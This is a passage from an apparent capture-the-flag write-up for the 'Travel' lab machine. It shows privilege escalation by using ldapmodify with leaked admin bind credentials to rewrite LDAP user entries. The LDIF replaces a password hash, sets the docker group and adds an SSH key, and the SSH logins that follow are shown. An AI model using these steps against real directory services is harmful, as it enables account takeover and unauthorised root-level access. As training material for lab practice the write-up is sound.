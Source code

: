Now, we can use ldapmodify to put these changes into effect:

ldapmodify -a -H ldap://ldap.travel.htb -x -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -f new.ldif 

Now, we can just ssh in!

```
ssh -i ~/.ssh/id_rsa frank@10.10.10.189

trvl-admin@travel:~$ id
uid=1000(trvl-admin) gid=1000(trvl-admin) groups=1000(trvl-admin),5000(domainusers) 
```

Strangely, it seems like some of the groups that trvl-admin was in have been stripped. To get the correct shell, we'll just create a file in /home/trvl-admin/.ssh names authorized_keys and put our id_rsa.pub key in it.

Now, if we ssh in as trvl-admin instead of frank, we'll get a shell with the correct groups:

```
trvl-admin@travel:~$ id
uid=1000(trvl-admin) gid=1000(trvl-admin) groups=1000(trvl-admin),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lxd)
```

From here, we aren't able to do much, since lxd gives us an error (since it isn't contained). Because we have docker on the box (group 117) we can use a docker privesc method:

new.ldif:

```
dn: uid=eugene,ou=users,ou=linux,ou=servers,dc=travel,dc=htb
changetype: modify
replace: userPassword
userPassword: {SSHA}0JZzQwnVI4FkqtTkzQYLUcvd7SpF1QbDcTRmkw==
-
replace: uidNumber
uidNumber: 1000
-
replace: gidNumber
gidNumber: 117
-
add: objectClass
objectClass: ldapPublicKey
-
add: sshPublicKey
sshPublicKey: <your key here>
```

Now, we just need to run it, then ssh in:

```
ldapmodify -a -H ldap://ldap.travel.htb -x -D "cn=lynik-admin,dc=travel,dc=htb" -w Theroadlesstraveled -f new.ldif 

ssh -i ~/.ssh/id_rsa eugene@10.10.10.189

trvl-admin@travel:~$ id                                                                                              
uid=1000(trvl-admin) gid=117(docker) groups=117(docker),5000(domainusers) 
```
